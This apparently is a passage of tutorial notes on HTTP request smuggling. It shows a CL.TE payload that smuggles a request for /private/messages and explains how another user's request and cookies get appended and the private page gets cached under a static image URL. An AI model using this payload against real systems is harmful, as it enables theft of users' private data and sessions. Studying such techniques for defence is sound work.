 ```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 43
Transfer-Encoding: chunked

0

GET /private/messages HTTP/1.1
Foo: X
```
- The next request from another user that is forwarded to the back-end server will be appended to the smuggled request, including session cookies and other headers
- The front-end server caches this response against what it believes is the URL in the second request, which is /static/some-image.png
```http
GET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 200 Ok
...
<h1>Your private messages</h1>
...
```

**Note: you can also smuggle prefixes for classic request smuggling attacks in this way**
